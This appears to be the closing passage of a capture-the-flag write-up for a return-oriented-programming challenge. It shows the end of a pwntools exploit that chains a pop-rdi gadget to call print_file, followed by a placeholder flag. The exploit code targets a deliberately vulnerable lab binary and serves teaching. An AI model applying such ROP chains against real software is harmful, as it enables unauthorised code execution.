 ```python
payload += p64(pop_rdi_addr)
payload += p64(data_addr)
payload += p64(elf.symbols['print_file'])

p.sendline(payload)
p.interactive()

```

And we get the flag:
```
Thank you!
ROPE{a_placeholder_32byte_flag!}
```